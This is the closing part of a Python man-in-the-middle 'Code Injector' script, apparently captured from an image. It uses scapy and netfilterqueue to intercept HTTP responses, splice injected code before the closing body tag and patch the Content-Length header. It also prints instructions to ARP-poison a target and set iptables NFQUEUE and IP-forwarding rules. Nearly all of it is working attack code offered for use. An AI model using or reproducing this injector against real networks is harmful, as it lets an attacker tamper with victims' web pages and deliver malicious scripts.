 ```python
                load = load.replace("</body>", injection_code + "</body>")
                # Capture non capturing groups and use non capturing regex --> (?:...)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
                if content_length_search and "text/html" in load:
                    content_length = content_length_search.group(1)
                    new_content_length = int(content_length) + len(injection_code)
                    load = load.replace(content_length, str(new_content_length))
            # Exec if load is modified
            if load != scapy_packet[scapy.Raw].load:
                print("[!] Response Injected!")
                new_packet = set_load(scapy_packet, load)
                packet.set_payload(bytes(new_packet))
        # Irrelevant HTML data
        except UnicodeDecodeError:
            pass
    packet.accept()

print("""
                              (                                       
   (          (           )\ )                        )           
   )\         )\ )   (   (()/(       (     (       ( /(      (    
 (((_)   (   (()/(  ))\   /(_)) (    )\   ))\  (   )\()) (   )(   
 )\___   )\   ((_))/((_) (_))   )\ )((_) /((_) )\ (_))/  )\ (()\  
((/ __| ((_)  _| |(_))   |_ _| _(_/(  ! (_))  ((_)| |_  ((_) ((_) 
 | (__ / _ \/ _` |/ -_)   | | | ' \))| |/ -_)/ _| |  _|/ _ \| '_| 
  \___|\___/\__,_|\___|  |___||_||_|_/ |\___|\__|  \__|\___/|_|   
                                   |__/                           
""")

print("[-] Specify a file to inject code from to poison any HTTP websites source.\n\n")
print("[NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
print("""
[!] Run the following commands as root before using this program to setup IPTABLE rules.

1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
2. iptables -I INPUT -j NFQUEUE --queue-num 0
3. echo 1 > /proc/sys/net/ipv4/ip_forward

""")

try:
    code = get_arguments()
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Exiting Program!")
```

